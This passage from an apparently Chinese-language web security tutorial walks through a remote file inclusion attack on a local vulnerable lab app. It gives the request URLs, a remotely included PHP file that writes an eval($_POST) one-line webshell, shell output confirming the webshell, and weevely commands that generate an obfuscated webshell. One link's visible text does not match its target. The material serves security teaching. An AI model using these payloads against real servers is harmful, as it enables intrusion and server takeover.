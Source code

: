 得到 GET 请求地址与参数，可以看出用于包含文件的参数 filename 被设置为 "include/file3.php"：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=include%2Ffile3.php&submit=%E6%8F%90%E4%BA%A4
```

修改 filename 参数为[http:/127.0.0.1/phpinfo.php](http://www.1491.com.tw/phpinfo.php)，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/phpinfo.php&submit=%E6%8F%90%E4%BA%A4
```

phpinfo 执行成功了：

<Image alt="图片3.png" src="https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4DSAJYH3AAQINnkRH5s611.png"/>  
图 3 远程文件包含执行 phpinfo

接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不用 PHP 后缀是为了避免在自己服务器被执行。

为了演示，我在 [http://127.0.0.1/shell.txt](http://127.0.0.1/shell.txth) 创建文件（如果你没有自己的服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生成一句话木马：

```php
<?php
  $a = "<?php eval(\$_POST['Cknife'])?>";
  file_put_contents("a.php",$a);
?>
```

然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/shell.txt&submit=%E6%8F%90%E4%BA%A4
```

成功生成一句话木马文件 a.php：

```java
sudo docker exec -it 7286434c6e88 /bin/bash
root@7286434c6e88:/# cat /var/www/html/a.php
<?php eval($_POST['Cknife'])?>
```

与《13 \| 文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方法一样，你可以用 Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以直接控制服务器了，此处不再赘述。

前面介绍的一句话木马比较容易被检测到，个人喜欢使用 [weevely3](https://github.com/epinna/weevely3)，因为它支持变形的一句话木马：

```java
$ python3 weevely.py
[+] weevely 4.0.1
[!] Error: the following arguments are required: path
[+] Run terminal or command on the target
    weevely <URL> <password> [cmd]
[+] Recover an existing session
    weevely session <path> [cmd]
[+] Generate new agent
    weevely generate <password> <path>
$ python3 weevely.py generate 'test' ./shell.php
Generated './shell.php' with password 'test' of 761 byte size.
```
